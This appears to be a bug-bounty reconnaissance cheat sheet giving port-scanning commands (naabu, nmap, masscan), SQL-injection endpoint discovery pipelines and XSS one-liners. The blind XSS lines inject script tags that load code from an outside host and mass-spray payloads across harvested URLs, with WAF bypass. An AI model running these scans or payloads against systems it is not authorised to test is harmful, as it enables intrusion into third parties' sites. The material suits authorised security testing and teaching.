 Network-Level Recon
Scan the target for open ports, running services and software versions. This helps you find vulnerable or misconfigured services that may not be visible from the web interface.

Port Scanning with Naabu
naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt

Nmap full scan
nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan

Masscan for speed
masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt

Vulnerability Discovery
After collecting all domains and URLs, it’s time to move from information gathering to actual testing. This is where recon meets exploitation. Now use the data you’ve collected to start testing for real vulnerabilities using different tools and techniques.

SQL Injection Testing
SQL Injection is still one of the most dangerous and impactful web vulnerabilities. Here’s a practical approach to identify and exploit it effectively.
for possible SQL technology detection:
subfinder -dL subdomains.txt -all -silent | httpx-toolkit -td -sc -silent | grep -Ei 'asp|php|jsp|jspx|aspx'
for single domain:
subfinder -d http://example.com -all -silent | httpx-toolkit -td -sc -silent | grep -Ei 'asp|php|jsp|jspx|aspx'
This command will filter out URLs using technologies and patterns that are commonly vulnerable to SQL injection, helping you prioritize high-risk targets for testing.
for possible SQL Endpoints:
echo http://site.com | gau | uro | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep -E '\?[^=]+=.+$'
This command filters URLs with extensions commonly linked to SQL injection vulnerabilities.

Cross-Site Scripting (XSS) Testing
XSS is a common and dangerous vulnerability that lets attackers inject malicious scripts into web pages, leading to session hijacking, redirects or defacement. Start with these one-liners for quick detection, then move on to advanced techniques like blind XSS and parameter fuzzing for deeper testing.
echo "target.com" | gau | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox
echo "example.com" | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt

XSS Testing Using FFUF Request Mode
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr "<script>alert('XSS')</script>"

Blind XSS Testing
cat urls.txt | grep -E "(login|signup|register|forgot|password|reset)" | httpx -silent | nuclei -t nuclei-templates/vulnerabilities/xss/ -severity critical,high
subfinder -d example.com | gau | bxss -payload '"><script src=https://xss.report/c/coffinxp></script>' -header "X-Forwarded-For"
subfinder -d example.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
cat xss_params.txt | dalfox pipe --blind https://your-collaborator-url --waf-bypass --silence
